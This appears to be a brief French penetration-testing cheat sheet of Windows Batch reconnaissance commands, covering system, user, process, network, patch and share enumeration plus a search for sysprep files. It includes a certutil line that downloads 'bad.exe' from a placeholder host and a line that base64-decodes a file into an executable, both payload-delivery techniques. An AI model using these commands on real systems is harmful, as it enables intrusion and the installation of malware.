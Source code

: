<h2>Batch</h2>
systeminfo → Obtenir des renseignements sur le système<\br>
net users [username] → Obtenir des renseignements sur les utilisateurs<\br>
tasklist → Lister les processus<\br>
netstat -ano → Liste des connexions tcp<\br>
dir sysprep /s /b → Trouver un fichier dans le repertoire courant et ses sous-dossiers<\br>
wmic qfe list → Lister les patch installés (KB)<\br>
certutil.exe -urlcache -split -f "http://site.com/bad.exe" bad.exe → wget en batch<\br>
certutil.exe -decode bad.txt bad.exe → base64 decode en cmd<\br>

<h2>Powershell</h2>
get-WmiObject -class Win32_Share
